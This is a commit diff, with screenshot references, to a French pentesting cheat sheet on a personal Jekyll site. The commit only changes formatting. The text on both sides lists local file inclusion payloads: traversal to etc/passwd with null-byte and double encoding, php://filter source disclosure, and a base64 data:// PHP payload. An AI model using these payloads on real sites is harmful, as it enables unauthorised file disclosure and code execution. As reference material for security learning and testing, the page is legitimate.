

Before and after one commit to fhbapt/fhbapt.github.io, a Jekyll site: the page built from _pages/cheatseet.md, in a window 1280 px wide and 900 px high, scrolled down 2143 px. Shown: the whole window, without its empty margins (207-1054 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/_pages/cheatseet.md
+++ b/_pages/cheatseet.md
@@ -98,26 +98,23 @@ Les fichiers intéressants :
 
 ```https://fhbapt.github.io/?page=etc/password%00``` Null Byte : %00
 
-**Double Encoding**
+**Double Encoding **
 
-```
-https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd
-https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd%00
-```
+`https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd`
 
-**Wrapper php://filter**
+`https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd%00`
 
-```
-https://fhbapt.github.io/?page=php://filter/convert.base64-encode/resource=index.php
-http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
-```
+**Wrapper php://filter **
 
-**Wrapper data://**
+`https://fhbapt.github.io/?page=php://filter/convert.base64-encode/resource=index.php`
 
-```
-https://fhbapt.github.io/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
-La payload est <?php phpinfo(); ?>
-```
+`http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php`
+
+**Wrapper data:// **
+
+`https://fhbapt.github.io/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==`
+
+`La payload est <?php phpinfo(); ?>`
 
 **Wrapper expect:// **
 
````
